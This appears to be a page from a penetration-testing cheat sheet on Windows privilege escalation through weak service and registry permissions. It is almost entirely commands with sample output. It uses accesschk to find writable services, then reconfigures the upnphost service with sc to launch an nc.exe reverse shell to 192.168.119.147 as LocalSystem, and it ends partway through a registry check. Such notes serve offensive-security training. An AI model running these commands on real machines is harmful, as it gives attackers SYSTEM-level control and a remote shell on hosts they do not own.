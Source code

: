 
#### Weak service permissions Exploitation

```bash
# download accesschk.exe form here https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
# List access for all services
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" * # or: .\accesschk.exe /accepteula -uwcqv user *
# Example Output, have full access in two services:
# $ RW SSDPSRV
# $	SERVICE_ALL_ACCESS
# $ RW upnphost
# $	SERVICE_ALL_ACCESS

# at least (service_change_config, service_start, service_stop) access is needed, service_all_access = full access

# If both conditions are met we can start exploiting this now.

# List current config for the service
sc qc upnphost
# see if START TYPE is DEMAND_START and if SERVICE_START_NAME is higher privileged
# $        START_TYPE         : 3   DEMAND_START
# ...
# ... 
# $        SERVICE_START_NAME : NT AUTHORITY\LocalService 
# change binpath with the payload you want to execute, example rev shell with uploaded nc.exe:
sc config "upnphost" binpath= "C:\WINDOWS\Temp\nc.exe 192.168.119.147 443 -e C:\WINDOWS\System32\cmd.exe"
# remove dependencies (if any)
sc config "upnphost" depend= ""
# make it run from system account
sc config "upnphost" obj= ".\LocalSystem" password= ""
# Start netcat listener to catch the reverse shell and start the service
net start "upnphost" # net stop "upnphost" first if the service is already running.
```


#### Weak Registry Permissions Exploitation

```bash
# Check permissions for an example service "upnphost"
Get-Acl HKLM:\System\CurrentControlSet\Services\upnphost | Format-List # PowerShell
# Example output, Check if NT AUTHORITY\INTERACTIVE has Full Control
# Access : Everyone Allow  ReadKey
#          NT AUTHORITY\INTERACTIVE Allow  FullControl
#          NT AUTHORITY\SYSTEM Allow  FullControl 
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\upnphost # same thing accesschk
# Example output for accesschk.exe:
#   RW NT AUTHORITY\INTERACTIVE
#         KEY_ALL_ACCESS

# Check if we have service_stop, service_start privilege
.\accesschk.exe /accepteula -ucqv user upnphost

# If both conditions are met we can start exploiting this now.

# list current values of the service
reg query HKLM\System\CurrentControlSet\Services\upnphost
# example output:
# HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\upnphost
#     DisplayName    REG_SZ    @%systemroot%\system32\upnphost.dll,-213
#     ErrorControl    REG_DWORD    0x1
```